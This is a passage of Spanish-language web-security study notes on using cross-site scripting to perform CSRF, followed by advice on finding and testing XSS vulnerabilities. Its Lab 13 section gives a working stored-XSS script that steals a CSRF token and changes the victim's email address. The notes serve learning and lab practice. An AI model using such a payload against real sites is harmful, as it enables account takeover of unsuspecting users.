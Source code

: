 <br />

#### 3.3. Exploiting cross-site scripting to perfom CSRF.

**Cualquier cosa que un usuario legítimo pueda hacer en un sitio web, probablemente también pueda hacerlo con XSS**.

Dependiendo del sitio al que se dirija, es posible que pueda hacer que una víctima envíe un mensaje, acepte una solicitud de amistad, envíe una puerta trasera a un repositorio de código fuente o transfiera algo de Bitcoin.

Algunos sitios web permiten a los usuarios registrados cambiar su dirección de correo electrónico sin volver a ingresar su contraseña. Si ha encontrado una vulnerabilidad XSS, puede activar esta funcionalidad para cambiar la dirección de correo electrónico de la víctima a una que usted controle y luego activar un restablecimiento de contraseña para obtener acceso a la cuenta.

Este tipo de explotación generalmente se conoce como falsificación de solicitud entre sitios (CSRF), lo cual es un poco confuso porque CSRF también puede ocurrir como una vulnerabilidad independiente. Cuando CSRF ocurre como una vulnerabilidad independiente, se puede parchear usando estrategias como tokens anti-CSRF. Sin embargo, estas estrategias no brindan ninguna protección si también está presente una vulnerabilidad XSS.

<br />

**Laboratorio 13: Exploit XSS to perfom CSRF**

Este laboratorio contiene una stored XSS vulnerability en la sección de los comentarios. Para resolver el laboratorio debemos explotar un CSRF attack y cambiar el email de la víctima que viene a visitar los comentarios.

Vamos a emplear el siguiente script:

```HTML
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```

En el parámetro de "comment" en los comentarios de cualquier post.

<br />

### 4. Cómo encontrar y testear vulnerabilidades XSS.

La gran mayoría de las vulnerabilidades XSS se pueden encontrar de forma rápida y confiable utilizando el escáner de vulnerabilidades web de Burp Suite.

La prueba manual de los reflected y stored XSS normalmente implica enviar una entrada única simple (como una cadena alfanumérica corta) en cada punto de entrada en la aplicación, identificar cada ubicación donde la entrada enviada se devuelve en las respuestas HTTP y probar cada ubicación individualmente para determinar si la entrada diseñada adecuadamente se puede utilizar para ejecutar JavaScript arbitrario. De esta forma, puede determinar el contexto en el que se produce el XSS y seleccionar una carga útil adecuada para explotarlo.

La prueba manual de XSS basado en DOM que surge de los parámetros de URL implica un proceso similar: colocar una entrada única simple en el parámetro, usar las herramientas de desarrollo del navegador para buscar esta entrada en el DOM y probar cada ubicación para determinar si es explotable. Sin embargo, otros tipos de DOM XSS son más difíciles de detectar. Para encontrar vulnerabilidades basadas en DOM en entradas no basadas en URL (como document.cookie) o sumideros no basados en HTML (como setTimeout), no hay sustituto para revisar el código JavaScript, que puede llevar mucho tiempo.
